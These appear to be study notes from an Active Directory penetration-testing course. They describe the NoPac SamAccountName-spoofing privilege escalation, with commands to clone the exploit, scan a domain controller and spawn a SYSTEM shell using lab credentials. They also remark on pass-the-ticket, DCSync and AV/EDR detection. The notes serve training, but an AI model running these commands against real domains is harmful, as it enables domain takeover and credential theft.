 
<br />

## NoPac (SamAccountName Spoofing)

This vulnerability encompasses two CVEs, 2021-42278 and 2021-42287  

It allows for privilege escalation within a domain from any standard domain user to Domain Admin level access  


The exploit
- The exploit takes advantage of being able to change the SamAccountName of a computer account to that of a Domain Controller  
- By default, authenticated users can add up to ten computers to a domain
- When doing so, we change the name of the new host to match a Domain Controller's SamAccountName

### Installing NoPac

NoPac relies on Impacket being installed, so that must be installed first  

Then,
```sh
git clone https://github.com/Ridter/noPac.git
```

### Using NoPac

There are many different ways to use NoPac to further our access  
One way is to obtain a shell with SYSTEM level privileges. This could be "noisy" and may be blocked by AV or EDR  

```sh
# Check if the system is vulnerable
sudo python3 scanner.py inlanefreight.local/forend:Klmcargo2 -dc-ip 172.16.5.5 -use-ldap

# Get a SYSTEM level shell:
sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 -shell --impersonate administrator -use-ldap
```

Using the above, a semi-interactive shell session is established with the target using smbexec.py  
- Keep in mind, with smbexec shells we need to use exact paths instead of navigating the directory structure using cd  

NoPac.py saves the TGT in the directory on the attack host where the exploit was run  
- We can use this ccache file to perform a pass-the-ticket and perform further attacks such as DCSync

### Windows Defender and smbexec.py Considerations

If Windows Defender (or any other AV or EDR product) is enabled on a target, our shell session may be established, but issuing any commands will likely fail  

<br />

## PrintNightmare

